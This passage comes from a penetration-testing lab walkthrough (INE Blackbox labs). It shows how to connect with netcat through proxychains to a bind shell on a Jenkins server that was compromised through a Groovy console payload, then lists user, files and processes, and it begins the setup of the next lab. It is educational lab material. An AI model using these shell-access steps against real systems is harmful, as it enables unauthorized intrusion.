 Once the payload has been executed in the Groovy script console, we can use netcat utility to connect to the bind shell started on the target machine (running Jenkins) using proxychains:

Command:

proxychains nc -v 192.108.156.3 5555

![](../media/Blackbox%20lab%20INE_82.png)

And that should connect us to the target machine running Jenkins!

Step 23: Gathering information about the target machine running Jenkins.

Now we can issue some commands to find out more information about the user we are operating as and the target server machine:

Command:

id

![](../media/Blackbox%20lab%20INE_83.png)

We are currently running asjenkinsuser.

Let's get the listing of files:

Command:

ls

![](../media/Blackbox%20lab%20INE_84.png)

Let's get the process listing:

Command:

ps aux

![](../media/Blackbox%20lab%20INE_85.png)

As you can see we can issue commands on the Jenkins server as well.

And this completes our objective of compromising both machines and gaining shell access on them!

BLACKBOX 3

Step 1: Open the lab link to access the Kali GUI instance.

![](../media/Blackbox%20lab%20INE_86.png)

Step 2: Check if the provided machines/domains are reachable.

Commands:

ping -c 2 server1.ine.local

ping -c 2 server2.ine.local

ping -c 2 server3.ine.local

![](../media/Blackbox%20lab%20INE_87.png)
